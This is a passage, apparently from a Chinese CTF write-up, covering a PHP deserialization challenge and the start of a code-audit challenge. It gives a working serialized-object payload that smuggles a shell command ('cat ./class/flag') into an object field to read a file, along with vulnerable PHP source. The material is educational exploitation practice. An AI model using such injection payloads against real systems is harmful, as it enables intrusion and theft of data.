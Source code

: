 ```bash
            }
            die();
        }
        public function nothing()
        {
            die("<center>You lose</center>");
        }
        public function __destruct()
        {
            waf($this->bag);
            if($this->weapon==='AWM')
            {
                $this->Get_air_drops($this->bag);
            }
            else
            {
                die('<center>The Air Drop is empty,you lose~</center>');
            }
        }
    }
?>

```
[php的魔术方法](http://php.net/manual/zh/language.oop5.magic.php)</br>
[由Typecho 深入理解PHP反序列化漏洞](https://zhuanlan.zhihu.com/p/33426188)</br>
[__wakeup()函数失效引发漏洞(CVE-2016-7124)](http://blog.csdn.net/qq_19876131/article/details/52890854)</br>
pyaload
```bash
?LandIn=school&pubg=O:7:"sheldon":3:{s:3:"bag";s:24:"win.php;cat%20./class/flag";s:6:"weapon";s:3:"AWM";}
```
查看源代码即可得。

# 简单的代码审计
```bash
<?php
error_reporting(0);
include('config.php');
header("Content-type:text/html;charset=utf-8");
function get_rand_code($l = 6) {
    $result = '';
    while($l--) {
        $result .= chr(rand(ord('a'), ord('z')));
    }
    return $result;
}

function test_rand_code() {
    $ip=$_SERVER['REMOTE_ADDR'];
    $code=get_rand_code();
    $socket = @socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
    @socket_connect($socket, $ip, 8888);
    @socket_write($socket, $code.PHP_EOL);
    @socket_close($socket);
    die('test ok!');
}

function upload($filename, $content,$savepath) {
    $AllowedExt = array('bmp','gif','jpeg','jpg','png');
    if(!is_array($filename)) {
        $filename = explode('.', $filename);
    }
```